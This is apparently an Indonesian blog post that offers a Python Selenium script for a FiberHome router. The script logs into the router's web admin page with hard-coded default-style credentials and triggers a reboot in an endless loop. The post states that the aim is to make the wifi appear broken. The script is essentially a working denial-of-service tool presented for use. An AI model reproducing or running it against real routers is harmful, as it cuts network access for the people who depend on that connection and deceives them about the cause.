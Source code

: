 ```yaml
---
date: '2025-06-11T21:05:42+08:00'
draft: False
title: 'Automasi Reboot Router (Fiber Home HG614D2)'
---
```

Script untuk mereboot router secara terus menerus, sehingga membuat wifi / router tampak seperti dalam gangguan / masalah.

Contoh kasus :
- Router Fiber Home HG6145D2

Requirement:
- Python
- [Library selenium](https://pypi.org/project/selenium/)
- Webdriver dari browser ([ChromeDriver](https://googlechromelabs.github.io/chrome-for-testing/) : driver dari browser chrome)

Code:
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.support.ui import WebDriverWait
import os
import time

username = "user"
password = "user1234"

os.environ['PATH'] = r'D:\\2.Area\\python\\automation_reboot\\chromedriver'
options = Options()
options.add_argument("--no-sandbox")
options.add_argument("--headless")
driver = webdriver.Chrome(options=options)

  
def reboot():
    try:
        driver.get("http://192.168.1.1/html/login_inter.html")
        driver.find_element("id","user_name").send_keys(username)
        driver.find_element("id","loginpp").send_keys(password)
        driver.find_element("id","login_btn").click()
        time.sleep(3)

        driver.find_element("id","first_menu_manage").click()
        time.sleep(3)

        driver.find_element("id","span_device_admin").click()
        time.sleep(3)

        a = driver.find_element(By.CSS_SELECTOR, "iframe")
        driver.switch_to.frame(a)
        driver.find_element(By.ID, "Restart_button").click()

        wait = WebDriverWait(driver, timeout=2)

        alert = wait.until(lambda d : d.switch_to.alert)
        alert.accept()
        time.sleep(3)

        print("berhasil reboot")

    except Exception:
        time.sleep(30)
        print("error")

def main():
    while(True):
        reboot()

if __name__ == "__main__":
    main()
```